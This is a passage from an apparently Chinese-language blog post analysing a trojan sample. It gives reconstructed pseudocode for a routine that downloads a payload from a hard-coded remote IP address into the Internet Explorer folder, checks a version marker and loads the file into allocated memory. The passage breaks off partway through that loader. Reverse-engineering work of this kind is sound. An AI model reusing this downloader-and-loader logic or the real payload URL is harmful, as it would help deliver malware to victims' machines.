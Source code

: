 ```yaml
---
layout: post
title: "[reverse] 记一次木马分析"
---
```


#### 0x00 前言

获得一个样本，简单了解为MFC的程序，以下是分析过程的一些总结，目的是为了了解这个程序到底做了什么。

第一次分析确实很乱，主要由于没有分析出程序的主功能，而且大部分的功能操作都是通过读取远程服务器的那个文件内容来操作。

#### 0x01 流程分析 ####

AfxWinMain ---> initinstance ---> domodal ---> AfxDlgProc ---> OnInitDialog ---> trojan_download

trojan_download函数执行流程：

伪代码：

	trojan_download(CDialog *this) {
		typedef DWORD (CALLBACK *LPFNREGISTER)(DWORD,DWORD);
		char *FileName = "C:/Program Files/Internet Explorer";
		char *LibFileName = "/updata.exe";
		strconcat(FileName, LibFileName);
		if (GetFileAttributesA(&FileName) == -1) {
			HMODULE hModule = LoadLibraryA("urlmon.dll");
			LPFNREGISTER lpfnRegister = GetProcAddress(hModule, "URLDownloadToFileA");
			char *Trojan = "http://121.14.212.211:800/updata.dat";
			URLDownloadToFileA(0, Trojan, FileName, 0, 0);
			sub_402320(FileName);
		} else {
			HANDLE hOpenfile = CreateFileA(lpFileName, 
							FILE_FLAG_WRITE_THROUGH,
							0,
							0,
							3u,
							0x80u,
							0);
			result = sub_402260(hOpenfile, "SSSSSSVID");
			if ( result && !strcmp(result+0xa, "2018-V1"))   // 文件头部偏移0xa是否为2018-V1
				sub_402320(fOpenfile);		// 加载updata.exe
		}
	}

sub_402320伪代码：

	sub_402320(const char * filename) {
		char *lpFileName = filename;
		while(1) {
			HANDLE hOpenfile = CreateFileA(lpFileName, 
							FILE_FLAG_WRITE_THROUGH,
							0,
							0,
							3u,
							0x80u,
							0);
			DWORD dwFilesize = GetFileSize(hOpenfile, 0);
			char *LibFileName = "KERNEL.dll";
			char *ProcName = "VirtualAlloc";
			HMODULE hModuleKernel = LoadLibraryA(LibFileName);
			LPFNREGISTER lp = GetProcAddress(hModuleKernel, ProcName);
			void *pMem = lp(0, dwFileSize, MEM_RESERVE|MEM_COMMIT, 4);
			ReadFile( hOpenfile, pMem, dwFileSize, &NumberOfBytesRead, 0);
			CloseHandle(hOpenfile);
			rever_file_content((char *)pMem, dwFilesize);  // 将头尾的数据进行一次替换